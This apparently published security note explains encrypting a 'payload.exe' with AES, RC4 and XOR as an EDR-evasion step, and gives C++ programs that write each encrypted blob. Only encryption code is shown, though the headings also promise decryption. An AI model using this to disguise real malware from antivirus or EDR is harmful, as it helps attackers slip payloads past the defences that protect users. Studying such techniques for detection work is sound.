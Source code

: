 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/1a-aes-rc-4-xor-encryption/","noteIcon":"","created":"2025-04-15T14:11:19.620-04:00"}
---
```


















To **implement AES, RC4, and XOR encryption** for a `payload.exe` file, you need to follow these steps:

---

## **1. Overview of Encryption Techniques**
| **Encryption Method**                  | **Key Features**                                            | **Pros**                            | **Cons**                                      |
| -------------------------------------- | ----------------------------------------------------------- | ----------------------------------- | --------------------------------------------- |
| **AES (Advanced Encryption Standard)** | Uses **128/192/256-bit keys**, operates in **CBC/GCM mode** | Strong encryption, widely supported | Can be detected if using WinAPIs (bcrypt.dll) |
| **RC4 (Rivest Cipher 4)**              | **Stream cipher**, uses XOR operations                      | Fast, simple, bidirectional         | Weak, vulnerable to cryptanalysis             |
| **XOR (Exclusive OR)**                 | Uses a **single-byte or multi-byte key** for XOR encoding   | Fast, lightweight, no dependencies  | Easily brute-forced                           |

---

## **2. Mermaid Diagram: Payload Encryption Workflow**
```mermaid
graph TD
    A[Original Payload.exe] -->|Encrypt with XOR| B[XOR Encrypted Payload]
    A -->|Encrypt with RC4| C[RC4 Encrypted Payload]
    A -->|Encrypt with AES| D[AES Encrypted Payload]
    
    B -->|Execution| E[Decrypt and Run]
    C -->|Execution| F[Decrypt and Run]
    D -->|Execution| G[Decrypt and Run]
```
---

## **3. Steps to Implement Encryption in `payload.exe`**
### **3.1 Encrypting and Decrypting with AES**
To encrypt `payload.exe` using **AES256-CBC**, follow this approach:

### **Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <bcrypt.h>

#pragma comment(lib, "bcrypt.lib")

#define KEYSIZE 32
#define IVSIZE 16

void EncryptPayload(PBYTE pPayload, DWORD dwSize, PBYTE pKey, PBYTE pIV, PBYTE* pEncrypted, DWORD* pEncryptedSize) {
    BCRYPT_ALG_HANDLE hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE hKeyHandle = NULL;
    NTSTATUS status;
    DWORD cbResult, cbKeyObject, cbCipherText;

    status = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);

    status = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
    PBYTE pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);

    status = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, pKey, KEYSIZE, 0);
    
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, NULL, 0, &cbCipherText, BCRYPT_BLOCK_PADDING);
    *pEncrypted = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbCipherText);
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, *pEncrypted, cbCipherText, &cbResult, BCRYPT_BLOCK_PADDING);

    *pEncryptedSize = cbResult;
    BCryptDestroyKey(hKeyHandle);
    BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    HeapFree(GetProcessHeap(), 0, pbKeyObject);
}

int main() {
    BYTE key[KEYSIZE] = { 0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99, 0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF, 0x00, 
                          0x10, 0x20, 0x30, 0x40, 0x50, 0x60, 0x70, 0x80, 0x90, 0xA0, 0xB0, 0xC0, 0xD0, 0xE0, 0xF0, 0x00 };
    BYTE iv[IVSIZE] = { 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F, 0x10 };
    
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    PBYTE pEncrypted;
    DWORD dwEncryptedSize;
    EncryptPayload(pPayload, dwSize, key, iv, &pEncrypted, &dwEncryptedSize);

    hFile = CreateFile("payload_encrypted_aes.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pEncrypted, dwEncryptedSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);
    HeapFree(GetProcessHeap(), 0, pEncrypted);

    return 0;
}
```

---

### **3.2 Encrypting and Decrypting with RC4**
#### **RC4 Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <string.h>

void RC4EncryptDecrypt(unsigned char* data, size_t dataSize, unsigned char* key, size_t keySize) {
    unsigned char s[256];
    unsigned int i, j = 0, temp;
    for (i = 0; i < 256; i++) s[i] = i;
    for (i = 0; i < 256; i++) {
        j = (j + s[i] + key[i % keySize]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
    }
    
    i = j = 0;
    for (size_t k = 0; k < dataSize; k++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
        data[k] ^= s[(s[i] + s[j]) % 256];
    }
}

int main() {
    unsigned char key[] = "maldev123";
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    RC4EncryptDecrypt(pPayload, dwSize, key, strlen((char*)key));

    hFile = CreateFile("payload_encrypted_rc4.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---

### **3.3 Encrypting and Decrypting with XOR**
```cpp
#include <windows.h>
#include <stdio.h>

void XORCipher(unsigned char* data, size_t dataSize, unsigned char key) {
    for (size_t i = 0; i < dataSize; i++)
        data[i] ^= key;
}

int main() {
    unsigned char key = 0xAA;
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    XORCipher(pPayload, dwSize, key);

    hFile = CreateFile("payload_encrypted_xor.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---


